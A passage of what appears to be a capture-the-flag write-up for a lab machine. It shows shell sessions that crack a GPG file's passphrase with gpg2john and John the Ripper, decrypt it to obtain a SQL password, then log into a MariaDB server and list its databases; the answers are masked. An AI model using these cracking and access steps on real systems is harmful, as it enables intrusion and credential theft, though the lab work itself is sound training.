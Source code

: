 ```bash
:~/M4tr1xExitDenied# python3 script.py
```


```bash
:~/M4tr1xExitDenied# /usr/local/bin/gpg2john p.txt.gpg > A

File p.txt.gpg
```

```bash
:~/M4tr1xExitDenied# john --wordlist=wordlist.txt A
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
------           (?)
1g 0:00:00:00 DONE (2025-10-12 xx:xx) 6.250g/s 12.50p/s 12.50c/s 12.50C/s fvgoxq..fvgoqx
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```bash
:~/M4tr1xExitDenied# gpg -d p.txt.gpg
gpg: AES256 encrypted data
gpg: encrypted with 1 passphrase
------------ //SQL Password
```

<br>
<p>1.8. What is the login_key of Ellie?<br>
<code>**************************************************</code></p>
<br>

```bash
:~/M4tr1xExitDenied# mysql -h xx.xxx.xx.xx -u mod -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.39-MariaDB-0ubuntu0.20.04.2 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| modManagerv2       |
| mybb               |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.003 sec)

MariaDB [(none)]> use modManagerv2;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```